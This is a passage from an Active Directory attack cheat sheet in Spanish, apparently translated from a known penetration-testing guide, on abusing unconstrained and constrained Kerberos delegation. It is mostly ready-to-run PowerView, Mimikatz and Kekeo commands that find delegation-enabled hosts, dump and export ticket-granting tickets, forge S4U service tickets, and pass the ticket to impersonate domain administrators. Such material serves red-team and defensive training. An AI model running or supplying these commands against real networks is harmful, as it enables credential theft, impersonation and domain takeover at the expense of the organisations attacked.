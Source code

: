 Artículo detallado:
[Todo sobre DPAPI](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)

### Delegación sin restricciones

_¿QUÉ ES DIS?: Si tenemos acceso administrativo en una máquina con la Delegación sin restricciones habilitada, podemos esperar un alto Objetivo de valor o DA para conectarse, robar su TGT, luego usar ptt y suplantarlo.

Usando PowerView:

```powershell
#Descubrir equipos unidos al dominio que tengan habilitada la Delegación sin restricciones
Get-NetComputer -UnConstrained

#Listar tickets y comprobar si un DA o algún objetivo de alto valor ha almacenado su TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets"'

#Comando para monitorizar cualquier sesión entrante en nuestro servidor comprometido
Invoke-UserHunter -ComputerName <NameOfTheComputer> -Poll <TimeOfMonitoringInSeconds> -UserName <UserToMonitorFor> -Delay
<WaitInterval> -Verbose

#Volcar los tickets al disco:
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

#Suplantar al usuario usando ptt Ataque:
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTicket>"'
```

*

*Nota:** ¡También podemos usar Rubeus!

### Delegación Restringida

Usando PowerView y Kekeo:

```powershell
#Enumerar usuarios y equipos con delegación restringida
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

#Si tenemos un usuario con delegación restringida, solicitamos un tgt válido de este usuario usando kekeo
tgt::ask /user:<NombreDeUsuario> /domain:<FQDNDeDominio> /rc4:<ContraseñaHashedDelUsuario>

#Luego, usando el tgt, solicitamos a un TGS un servicio al que este usuario tiene acceso mediante delegación restringida
tgs::s4u /tgt:<RutaDeTGT> /user:<UsuarioParaImpersonar>@<FQDNDeDominio> /service:<SPNDeServicio>

#Finalmente, usamos mimikatz para enviar el tgt TGS
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTGS>"'
```
